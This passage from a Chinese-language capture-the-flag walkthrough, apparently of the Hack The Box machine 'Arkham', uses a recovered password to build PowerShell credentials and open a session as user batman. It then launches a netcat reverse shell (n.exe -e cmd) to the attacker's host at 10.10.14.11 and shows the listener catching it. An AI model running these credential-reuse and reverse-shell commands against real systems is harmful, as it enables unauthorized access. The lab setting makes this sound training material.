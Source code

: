 成功获取到账号密码为batman/Zx^#QZX+T!123

## 获取shell

进入 powershell 来制作凭据

```
powershell
$username = 'batman'
$password = 'Zx^#QZX+T!123'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
```

```
C:\Users\Alfred>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Alfred> $username = "arkham\batman"
PS C:\Users\Alfred> $password = "Zx^#QZX+T!123"
PS C:\Users\Alfred> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\Users\Alfred> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\Users\Alfred> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\Users\Alfred> new-pssession -computername . -credential $cred

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          localhost       RemoteMachine   Opened        Microsoft.PowerShell     Available


PS C:\Users\Alfred> enter-pssession 1
[localhost]: PS C:\Users\Batman\Documents> whoami
arkham\batman
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 
```

成功获得shell

```
root@kali# rlwrap nc -lnvp 443 
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.130.
Ncat: Connection from 10.10.10.130:49697.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Batman\Documents>
```
